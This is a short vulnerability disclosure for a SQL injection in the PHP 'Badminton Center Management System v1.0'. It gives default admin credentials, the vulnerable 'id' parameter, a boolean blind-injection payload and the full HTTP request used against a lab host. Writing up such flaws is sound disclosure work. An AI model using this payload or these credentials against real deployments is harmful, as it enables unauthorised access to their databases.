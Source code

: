 # Badminton Center Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15318/badminton-center-management-system-phpoop-free-source-code.html

Current database name: bcms_db,length is 7

Vulnerability File: /bcms/admin/?page=sales/manage_sale&id=

Vulnerability location: /bcms/admin/?page=sales/manage_sale&id=, id

[+] Payload: /bcms/admin/?page=sales/manage_sale&id=6%27%20and%20length(database())%20=7--+ // Leak place ---> id


```sql
GET /bcms/admin/?page=sales/manage_sale&id=6%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

When length (database ()) = 6, Content-Length: 33357
![image](https://user-images.githubusercontent.com/54017627/170617795-4fbdfe5f-3f76-4ff9-a90d-920785eab209.png)

![image](https://user-images.githubusercontent.com/54017627/170617844-bcc09f78-c829-424a-a9f4-97dbdd3c6f73.png)

When length (database ()) = 7, Content-Length: 35013
![image](https://user-images.githubusercontent.com/54017627/170617749-f16fc021-56fb-4bae-a2ec-fc659f9c78e9.png)

![image](https://user-images.githubusercontent.com/54017627/170617816-aee9d36a-832a-4ea1-aa45-374fee566cc0.png)

